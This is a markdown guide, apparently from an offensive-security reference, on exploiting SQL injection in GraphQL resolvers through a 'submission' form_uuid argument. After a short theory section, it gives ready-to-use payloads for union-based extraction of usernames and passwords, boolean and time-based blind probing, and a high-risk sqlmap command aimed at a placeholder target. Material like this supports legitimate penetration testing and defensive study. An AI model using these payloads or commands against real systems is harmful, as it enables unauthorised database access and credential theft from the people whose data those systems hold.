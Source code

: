```yaml
---
title: 'SQL Injection in GraphQL: Techniques & Exploits'
description: Learn how to exploit SQL Injection in GraphQL with practical techniques
  including union, error, blind, and time-based methodologies.
keywords:
- SQL Injection
- GraphQL
- union-based SQL injection
- blind SQL Injection
- time-based SQL Injection
- error-based SQL Injection
- parameter injection
- cybersecurity
---
```


# SQL Injection

## Context

The objective of this guide is to enable offensive operators to exploit SQL Injection vulnerabilities within GraphQL endpoints using both manual and automated techniques. Previous knowledge should include an understanding of GraphQL query structure and operations, SQL syntax, the concept of parameterized queries, and general GraphQL injection methodologies.

## Theory

### SQL Injection in GraphQL Context

SQL Injection occurs when untrusted input in GraphQL queries is unsafely concatenated into backend SQL statements. The core principle behind this attack is that GraphQL resolvers may directly interpolate user-supplied arguments into SQL queries, which creates a risk for injection if not properly sanitized or parameterized. The typical attack sequence involves crafting malicious GraphQL queries that manipulate the underlying SQL logic with the intention of extracting data or altering the state of the database.

### Parameter Injection via GraphQL Arguments

In a vulnerability model where resolvers fail to sanitize or parameterize inputs, attackers can potentially inject SQL payloads via GraphQL variables or fields. The data flow of such an attack follows this path: User input → GraphQL argument → Resolver → SQL query → Database. If any security checks are bypassed along this path, it leaves the system open to exploitation.

### SQL Injection Techniques in GraphQL

Various SQL injection techniques can be adapted for GraphQL endpoints, including union-based, error-based, blind, and time-based SQL Injection. The attack sequence typically involves identifying injectable fields, testing with different payload variants, and then escalating to data extraction or potential command execution, depending on the response and state of the endpoint.

### Targeting Embedded Identifiers (e.g., submission_form_uuid)

Fields like 'submission_form_uuid' are often directly mapped to SQL queries and can frequently become targets for SQL injection due to their common usage in identifying entries within databases. If there is an implementation flaw associated with how these identifiers are processed, it could increase the injection risk, making them prime targets for attackers.

## Practice

### Manual Union-Based SQL Injection via GraphQL Query

- **Payload**: 
  ```graphql
  {
      submission(form_uuid: "' UNION SELECT username, password FROM users--") {
          id
          name
      }
  }
  ```
  This payload injects a `UNION SELECT` statement to potentially extract usernames and passwords.

- **Observation**: Look at the response for any additional data or fields that indicate a successful SQL injection.

**Outcome**: This technique can result in the attacker retrieving sensitive data directly from the database through the manipulated GraphQL query.

### Automated Error-Based SQL Injection with sqlmap

- **Command**: 
  ```bash
  sqlmap -u http://target/graphql --data '{"query":"query { submission(form_uuid: \"1\") { id } }"}' --batch --level=5 --risk=3 --technique=E
  ```
  This command utilizes `sqlmap` to automate error-based SQL injection testing on a target GraphQL endpoint.

**Outcome**: Using `sqlmap` in this way can automate the process of extracting sensitive database information through error-based SQL injection methods.

### Manual Blind SQL Injection via Boolean Conditions

- **Payload (True condition)**:
  ```graphql
  {
      submission(form_uuid: "' AND 1=1--") {
          id
      }
  }
  ```
  This true condition should yield a normal response.

- **Payload (False condition)**:
  ```graphql
  {
      submission(form_uuid: "' AND 1=2--") {
          id
      }
  }
  ```
  This false condition should result in a different or empty response.

**Outcome**: By examining the differences in responses between these inputs, blind SQL injection can be confirmed.

### Manual Time-Based Blind SQL Injection

- **Payload**:
  ```graphql
  {
      submission(form_uuid: "' OR IF(1=1,SLEEP(5),0)--") {
          id
      }
  }
  ```
  This injects a time delay, allowing confirmation of the injection point through measurable response delays.

**Outcome**: Identifies injectable fields by observing the time delay caused by the injection, thus confirming vulnerability.

## Tools

- **sqlmap**
- **Burp Suite**
